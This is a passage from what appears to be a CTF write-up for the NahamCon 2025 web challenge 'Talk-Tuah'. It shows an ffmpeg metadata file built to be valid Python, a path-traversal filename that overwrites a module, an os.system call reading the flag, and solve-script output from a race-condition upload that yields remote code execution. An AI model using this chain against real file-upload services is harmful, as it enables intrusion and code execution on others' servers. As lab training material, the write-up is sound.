 With that said, we can try to write `json.py`, as it doesn't contain any null bytes.

After crafting a valid Python script and metadata syntax, we have the following file, `metadata.txt`:

```python
;FFMETADATA1
command='cat /app/flag.txt'
anything=__import__('os').system(command)
'''=A
episode_name=../../json.py
A='''
```

We can then add those metadata into our original MP3 file:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|16:29:32(HKT)]
└> ffmpeg -i file_example_MP3_700KB.mp3 -i metadata.txt -map_metadata 1 -codec copy -y output.mp3
[...]
Output #0, mp3, to 'output.mp3':
  Metadata:
    command         : 'cat /app/flag.txt > /app/static/episodes/flag.txt'
    anything        : __import__('os').system(command)
    '''             : A
    episode_name    : ../../json.py
    A               : '''
    TSSE            : Lavf59.27.100
  [...]
[...]
```

## Exploitation

Armed with above information, we can gain RCE via the following steps:
1. Upload a valid MP3 file
2. Time carefully and swap the valid one with our own malicious one

To automate the above steps, I've written the following Python solve script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

> Note: The solve script will hijack module `subprocess` instead of `json`. This is because Flask has a dependency on the `json` module. If we hijack it, the web application will break and make us much harder to exfiltrate the flag.

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|17:39:51(HKT)]
└> python3 solve.py
[*] Writing our payload...
[*] Uploading file YfOpxvtoAi.mp3...
[*] Uploading file YfOpxvtoAi.mp3...
[*] Sleeping 1 second to trigger the reload, as the modification will be different...
[*] Uploading file Scgtriefeo.mp3...
[*] Uploading file Scgtriefeo.mp3...
[*] Sleep 1 second to wait for the command to be executed...
[+] File content: flag{bbdc7062c109c406a674ce3cfdcc59a0}
```

- Flag: **`flag{bbdc7062c109c406a674ce3cfdcc59a0}`**

## Conclusion

What we've learned:

1. Arbitrary File Write via race condition
2. Arbitrary File Write to RCE via hijacking Python importing module